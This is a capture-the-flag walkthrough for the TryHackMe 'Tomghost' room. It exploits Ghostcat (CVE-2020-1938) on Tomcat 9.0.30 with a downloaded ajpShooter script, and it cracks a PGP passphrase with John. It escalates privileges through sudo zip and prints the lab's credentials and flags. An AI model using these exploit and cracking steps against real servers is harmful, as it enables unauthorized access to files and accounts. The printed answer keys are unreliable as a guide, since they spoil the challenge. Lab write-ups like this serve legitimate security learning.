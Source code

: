 # Tomghost Walkthrough
### Link
- https://tryhackme.com/room/tomghost
---
### Taks 
**Question**
###### Compromise this machine and obtain user.txt

# Reco
```
nmap -sC -sV [IP]
```

In the result, we can see 2 interesting porst:
- 8009/tcp open  ajp13      Apache Jserv (Protocol v1.3)
- 8080/tcp open  http       Apache Tomcat 9.0.30

These 2 lines give us the key information: we are walking around an **Apache Server** and the **Tomcat version** is :  *9.0.30*

Now we can try to find an exploit in exploit-db.com database.

# Exploit
We found the exploit atatched to the **CVE : 2020-1938** 

This CVE gives the opportunity to an attacker  to read the contents of configuration files and source code files of ALL webapps deployed on Tomcat with this version.

After a quick research, I found this python script 
```
https://github.com/00theway/Ghostcat-CNVD-2020-10487
```

Download the script
```
sudo wget https://raw.githubusercontent.com/00theway/Ghostcat-CNVD-2020-10487/master/ajpShooter.py
```

Check the option available
```
python3 ajpShooter.py -h
```

*positional arguments*
```
  url                   target site's context root url like http://www.example.com/demo/
  ajp_port              ajp port
  target_file           target file to read or eval like /WEB-INF/web.xml,/image/evil.jpg
  {read,eval}           read or eval file
```

So the format could be
```
python3 ajpShooter.py [url] [ajp_port] [target_file] [read or eval]
```

Commandline
```
python3 ajpShooter.py [IP] 8009 /WEB-INF/web.xml read
```

We found **2 information**
- User: **skyfuck**
- Password: **8730281lkjlkjdqlksalks**

# Access Server throughg SSH

After the SSH  connection has been done, let's do a basic "ls".We found 2 files
- credential.pgp
- tryhackme.asc

We need to copy the pgp file and asc file in our local machine and try to decrypt the pgp

Copy to the local machine
```
sudo scp skyfuck@[IP]:{credential.gpg,tryhackme.asc} .
```

Now we can brute force the gpg file with our friend **John** ^^
```
gpg2john tryhackme.asc > tryhackme_gpg.hash
```

Now we can continue to use John to crack the file.
```
john --wordlist=/usr/share/wordlist/rockyou.txt tryhackme_gpg.hash
```

passphrase: **alexandru**

Now we can decrypt the *gpg file*

From the SSH conenction 
 - First : import the key
 ```
 gpg --import tryhackme.asc
 ```
 - Second : decrypt the gpg file
 ```
 gpg --decrypt credential.pgp
 ```

We found a new user : **merlin** and 
the password associated:**asuyusdoiuqoilkda312j31k2j123j1g23g12k3g12kj3gk12jg3k12j3kj123j**

Let's switch to this user

Check merlin / 

You can find the first flag --> **user.txt**

**Answer**
###### THM{GhostCat_1s_so_cr4sy}

# Privilege escalation

Let's check what merlin can do 
```
sudo -l
```

merlin can use **/usr/bin/zip**

Now we can check https://gtfobins.github.io/gtfobins/zip/

We can use the "Sudo" pattern

**Answer**
###### THM{Z1P_1S_FAKE}